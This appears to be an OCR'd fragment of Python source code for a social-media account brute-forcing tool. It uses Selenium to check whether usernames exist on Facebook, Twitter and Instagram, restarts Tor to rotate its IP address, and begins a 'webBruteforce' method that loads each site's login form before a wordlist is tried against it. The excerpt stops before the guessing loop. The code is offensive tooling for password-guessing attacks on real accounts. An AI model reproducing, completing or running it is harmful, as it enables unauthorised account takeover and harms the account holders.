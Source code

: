        try:

           if service == "facebook":

               driver.get("https://www.facebook.com/public/" + fb_name)

               assert (("We couldn't find anything for") not in driver.page_source)

               driver.close()

               os.system("clear && /etc/init.d/tor restart")

           elif service == "twitter":

               driver.get("https://www.twitter.com/" + username)

               assert (("Sorry, that page doesn’t exist!") not in driver.page_source)

               driver.close()

           elif service == "instagram":

               driver.get("https://instagram.com/" + username)

               assert (("Sorry, this page isn't available.") not in driver.page_source)

               driver.close()

       except AssertionError:

           return 1

    def webBruteforce(self, username, wordlist, service, delay):

        my_ip = urlopen("http://ip.42.pl/raw").read()

        driver = webdriver.Firefox()

        if service == "facebook":

            driver.get("https://touch.facebook.com/login?soft=auth/")

            WebDriverWait(driver, 30).until(lambda d: d.execute_script('return document.readyState') == 'complete')

            elem = driver.find_element_by_name("email")
            
        elif service == "twitter":

            driver.get("https://mobile.twitter.com/session/new")

            WebDriverWait(driver, 30).until(lambda d: d.execute_script('return document.readyState') == 'complete')

            elem = driver.find_element_by_name("session[username_or_email]")

        elif service == "instagram":

            driver.get("https://www.instagram.com/accounts/login/?force_classic_login")

            WebDriverWait(driver, 30).until(lambda d: d.execute_script('return document.readyState') == 'complete')

            elem = driver.find_element_by_name("username")
